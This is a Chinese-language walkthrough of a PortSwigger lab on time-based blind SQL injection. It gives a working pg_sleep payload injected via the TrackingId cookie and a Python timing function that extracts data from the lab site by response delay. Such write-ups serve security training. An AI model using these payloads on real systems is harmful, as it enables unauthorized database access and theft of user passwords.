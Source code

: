 The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

### 題目解釋
OK，終於來到所有 SQLi 中，我最討厭的部分了 QQ，因為真的很浪費時間，Time Based Blind。

### 解答
先戳了一下，發現前一題的 Payload 可以用

```
1' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) -- -
```

接下來我們可以透過 SQLMe0w 來解題，但需要先做一點點觀察，先把 function 改寫成下面這樣，順便把 Sleep 改短

```python
def boolean_based_blind(condition):
    cookies = {
        'TrackingId': f'1\' || (SELECT CASE WHEN ({condition}) THEN pg_sleep(0.5) ELSE pg_sleep(0) END) -- -',
        'session': 'xM48SVYJJorBpSN7kCi2WvvrhaJeEDGH',
    }
# 略
    start_time = time.time()
    response = requests.get('https://acf61f121e7eff87c0fd9a2800bc00db.web-security-academy.net/', headers=headers, cookies=cookies)
    time_diff = time.time() - start_time
    print("time_diff:" , time_diff)
    if 'Welcome back!' in response.text : # 先隨便，之後會改
        return True
    else:
        return False

```

在這個情境下跑 Option 0， 觀察 `time_diff`，以我的例子來看， True 時會是 `1.66` 秒， False 時會是 `1.16` 秒，平均值大概是 `1.4` ，所以把 if 的條件設為大於 1.4 視為 True。


備註：這邊數值取決於網路狀況，每個人可能會有所不同，需要自己湊一個比較穩定的數字，多跑幾次。

```python
    start_time = time.time()
    response = requests.get('https://acf61f121e7eff87c0fd9a2800bc00db.web-security-academy.net/', headers=headers, cookies=cookies)
    time_diff = time.time() - start_time
    # print("time_diff:" , time_diff)
    if time_diff > 1.4 :
        return True
    else:
        return False
```
